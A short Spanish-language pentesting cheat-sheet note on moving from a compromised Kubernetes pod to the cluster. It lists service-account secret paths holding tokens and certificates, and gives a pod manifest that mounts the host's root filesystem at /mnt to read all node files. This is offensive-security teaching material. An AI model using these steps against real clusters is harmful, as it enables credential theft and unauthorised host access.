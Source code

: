 Si has accedido a un pod puedes sacar información para saltar al cluster, obtener tokens y archivos de configuración, a continuación muestro que rutas son:

- /`run/secrets/kubernetes.io/serviceccount`

- `/var/run/secrets/kubernetes.io/serviceaccount`

- `/secrets/kubernetes.io/serviceaccount`


Puede contener los siguientes archivos:

- **ca.crt**: Es el certificado que comprueba la comunicación con el kubernetes

- namespace: Indica el namespace actual

- token: contiene el servicio token del pod actual


Si fuera el caso de que hemos obtenido información suficiente en estos archivos podemos crear un pod y hacer que la raiz (/) de la máquina que queremos acceder se monte dentro de un pod en /mnt y así tener acceso a todos los archivos de el servidor kubernetes.


```
apiVersion: v1
kind: Pod
metadata:
  name: j4ckie-pod
  namespace: default
spec:
  containers:
  - name: j4ckie-pod
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
```

En hacktrickz tiene una cheat sheet genial que nos puede servir de ayuda -->
[Kubernetes EnumerationHackTricks Cloud](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/kubernetes-enumeration)
